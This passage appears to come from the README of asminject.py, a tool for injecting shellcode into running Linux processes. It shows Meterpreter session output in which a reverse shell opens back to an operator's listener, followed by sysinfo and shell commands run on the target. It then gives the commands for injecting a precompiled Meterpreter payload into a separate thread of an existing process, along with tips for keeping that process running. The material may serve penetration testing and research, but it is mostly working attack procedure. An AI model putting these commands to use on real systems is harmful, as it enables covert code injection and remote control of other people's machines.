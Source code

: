 You should see something like the following pop up in the third terminal:

```
[*] Sending stage (908480 bytes) to 172.19.87.11
[*] Meterpreter session 2 opened (172.19.87.7:11443 -> 172.19.87.11:52736 ) at 2022-05-18 13:00:11 -0700
sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : 172.19.87.11
OS           : Debian 10.6 (Linux 5.4.77-v7l-blincoln0002+)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > shell
Process 5280 created.
Channel 1 created.
whoami
pi
```

Warnings:

* The code for the original process will not continue executing after the shellcode is launched. See the threaded version below if you need that.
* The original process will exit when Meterpreter exits.

## Inject shellcode into a separate thread of an existing process

The `execute_precompiled_threaded.s` payload is identical to the `execute_precompiled.s` payload described above, except it executes the precompiled binary shellcode in a separate thread. This allows the target process to continue executing normally.

This payload requires relative offsets for `libpthread` shared library used by the target process.

```
# ./get_relative_offsets.sh /lib/arm-linux-gnueabihf/libpthread-2.28.so > relative_offsets-libpthread-2.28.txt

# python3 ./asminject.py 5487 execute_precompiled_threaded.s --arch arm32 --relative-offsets relative_offsets-libpthread-2.28.txt --stop-method "slow" --precompiled lmrtarm11443
...omitted for brevity...
```

Warnings:

* The original process will still exit if your shellcode triggers an OS-level process exit. Meterpreter's default configuration does this, and as of this writing, the Linux version of Meterpreter does not have an equivalent of the Windows Meterpreter `EXITFUNC=thread` option, so the only workaround is to not call `exit` in Meterpreter until you want the target process to exit.

## Inject a Linux shared library (.so) file into an existing process, like the original dlinject.py
